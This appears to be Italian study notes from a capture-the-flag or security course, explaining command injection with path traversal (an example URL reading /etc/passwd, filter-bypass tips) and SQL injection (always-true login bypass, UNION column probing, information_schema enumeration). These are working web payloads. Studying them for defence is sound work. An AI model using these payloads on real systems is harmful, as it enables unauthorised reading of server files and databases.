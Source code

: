 # Lettura file dal server (Path Traversal)

- Comandi simili a cat: less, more, head, tail, sed '', tac.

- Se disabilitato ";", usa pipe |

- Ricorda nella get %20 per mettere spazi.

- Se dà problemi di path traversal, inizia il path con /./.. etc

Esempio command injection: http://localhost:8000/?domain=www.ulisse.unibo.it|%20more%20../../../../../../etc/passwd%20

- Se dà problemi perchè "file non può finire con x", prova mettendo *, oppure %20 per aggiungere uno spazio alla fine


# SQL Injection

La SQL Injection è una vulnerabilità di sicurezza che consente ad un attaccante di interferire con le query SQL che un'applicazione invia al suo database. Questo può permettere all'attaccante di visualizzare dati a cui normalmente NON dovrebbe avere accesso, oppure eseguire comandi arbitrari sul database.

## Simple SQLI

Tornare un Risultato "VERO"
Un attacco SQL Injection può sfruttare l'input dell'utente per manipolare una query SQL in modo che il risultato sia sempre vero.

Esempio di Query Vulnerabile: `SELECT * FROM users WHERE username = 'user' AND password = 'password'`;

Se l'input dell'utente per il campo username è: `' OR 1=1 --`

La query diventa: `SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = 'password'`;

- OR 1=1 -- forza la condizione ad essere sempre vera.
- -- commenta il resto della query, ignorando la verifica della password.

## Union Based SQLI
Passi per Sfruttare UNION Based Injection:

- Scoprire il Numero di Colonne: Inietta diverse query con NULL per determinare il numero di colonne nella query originale.
	
	- `' UNION SELECT NULL #` oppure `' UNION SELECT NULL --`, dipende dalla versione di sql 
	
	- Se dà errore, si deve provare con più colonne: `' UNION SELECT NULL, NULL, NULL #`. 
	Quando NON si verifica errore, si è trovato il numero di colonne.

- Sfruttare information_schema: information_schema è uno schema SQL standard che contiene informazioni sulla struttura del database.

    - Scoprire gli Schemi: `' UNION SELECT NULL, NULL, schema_name FROM information_schema.schemata #`

